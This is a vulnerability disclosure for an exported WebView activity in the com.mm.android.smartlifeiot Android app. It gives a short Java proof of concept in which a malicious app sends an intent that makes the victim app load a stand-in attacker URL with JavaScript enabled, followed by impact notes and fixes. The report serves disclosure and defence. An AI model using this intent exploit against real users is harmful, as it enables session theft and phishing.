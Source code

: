 ## Vulnerability Report (Revised)

### Introduction:
This vulnerability report outlines a potential security flaw identified in the `com.mm.android.smartlifeiot` app's exported activity: `com.mm.android.easy4ip.MainActivity`. An attacker can leverage this flaw using a third-party app to load arbitrary web content in the WebView of the vulnerable application.



### Affected Component:
Activity: `com.mm.android.easy4ip.MainActivity`  
App: `com.mm.android.smartlifeiot`

### Vulnerability Description:

The `com.mm.android.easy4ip.MainActivity` activity in the `com.mm.android.smartlifeiot` app allows for the loading of URLs directly from intent data. This can be potentially exploited by a malicious third-party app to force this activity to load malicious web content from a URL specified by the attacker.

### Proof of Concept:

A third-party malicious app (`com.example.d3m0`) can craft and launch an intent targeting `com.mm.android.easy4ip.MainActivity` as follows:

<code>
java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mm.android.smartlifeiot", "com.mm.android.easy4ip.MainActivity"));
intent.putExtra("url", "imoulife://http://maliciouswebsitetest.com");
startActivity(intent);
</code>

Upon executing this code, `com.mm.android.easy4ip.MainActivity` would be triggered to load the content from `http://maliciouswebsitetest.com`.

### Code Snippets:

1. In the `com.mm.android.easy4ip.MainActivity`, URLs are loaded directly from intent data without adequate validation:
   
<code>
   java
   this.url = getIntent().getExtras().getString("url");
</code>

3. JavaScript execution is enabled in the WebView:
   
<code>
   java
   this.webView.getSettings().setJavaScriptEnabled(true);
</code>
5. Direct web content loading with the fetched URL:

<code>
   java
   progressWebView.loadUrl(str);
   
</code>

### Impact:

A malicious actor can exploit this vulnerability to execute arbitrary JavaScript within the context of the vulnerable application. This could potentially lead to various attacks, including stealing session cookies or tokens, executing actions on behalf of the user within the app context, or displaying phishing content to the user.

### MITRE CWE References:

- [CWE-200: Information Exposure](https://cwe.mitre.org/data/definitions/200.html): Since arbitrary URLs can be loaded, there's a risk of exposing user data.
- [CWE-601: URL Redirection to Untrusted Site ('Open Redirect')](https://cwe.mitre.org/data/definitions/601.html): The application redirects users to any URL without validation.
- [CWE-749: Exposed Dangerous Method or Function](https://cwe.mitre.org/data/definitions/749.html): Due to the WebView configurations and lack of input validation.
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html): The vulnerability can potentially allow attackers to inject arbitrary code.
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html): With JavaScript enabled, an attacker could potentially inject malicious scripts.

### Recommendations:

1. **Intent Data Validation**: Ensure that all intent data, especially URLs, are adequately validated before use.
2. **Disable JavaScript (if not needed)**: If the application does not require JavaScript execution within the WebView, it should be disabled.
3. **Use Web Content Filtering**: Implement a whitelist of allowed domains or URLs that can be loaded in the WebView.
4. **Flag Non-Exported**: If the MainActivity is not intended to be used by third-party apps, ensure that it's flagged as non-exported in the manifest.

 TLDR: **Set Exported='False'**
 ![image](https://github.com/actuator/imou/assets/78701239/ca4d4e27-3d5d-4a49-8fd9-2a7e60e29c37)
